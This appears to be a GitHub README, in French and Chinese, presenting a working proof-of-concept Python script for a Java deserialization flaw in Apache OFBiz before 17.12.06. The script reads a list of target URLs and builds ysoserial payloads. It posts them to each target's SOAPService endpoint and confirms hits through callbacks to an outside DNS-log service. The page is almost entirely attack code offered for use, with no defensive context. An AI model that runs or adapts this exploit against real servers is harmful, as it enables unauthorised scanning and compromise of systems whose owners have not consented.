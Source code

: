<languages />

Impact de la vulnérabilité
--------------------------

Apache OFBiz \< 17.12.06

POC
---

    #coding:utf-8
    import binascii
    import os
    import requests
    import urllib3
    import uuid
    urllib3.disable_warnings()
    def main():
        id = requests.get("https://dns.xn--9tr.com/new_gen").text.split(".")[0]
        if(not os.path.exists("target.txt")):
            exit("put url in target.txt! ")
        if(not os.path.exists("ysoserial.jar")):
            exit("where is ysoserial.jar?")
        with open("target.txt")as f:
            urls = f.readlines()
        for url in urls:
            url = url.strip()
            uid = uuid.uuid1().hex
            cmd = "java -jar .\ysoserial.jar URLDNS http://{0}.{1}.y.dns1.tk > tmp".format(uid,id)
            r = os.popen(cmd)
            r.close()
            with open("tmp",'rb') as f:
                payload = binascii.hexlify(f.read())
            data = '''
            <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
                <soapenv:Header/>
                <soapenv:Body>
                <ser>
            <map-HashMap>
                <map-Entry>
                    <map-Key>
                        <cus-obj>{0}</cus-obj>
                    </map-Key>
                    <map-Value>
                        <std-String value="http://baidu.com"/>
                    </map-Value>
                </map-Entry>
            </map-HashMap>
                </ser>
                </soapenv:Body>
                </soapenv:Envelope>
                '''.format(payload.decode())
            headers = {
                "user-agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"
            }
            url = url+"/webtools/control/SOAPService"
            try:
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
            except:
                pass
            dnslogresurl = "https://dns.xn--9tr.com/"+id
            if(uid in requests.get(dnslogresurl).text):
                print("[+] {0} 漏洞存在".format(url))
            else:
                print("[-] {0} 漏洞不存在".format(url))
        print("[+] 请到 {0} 查看结果".format(dnslogresurl))

    if __name__ == "__main__":
        main()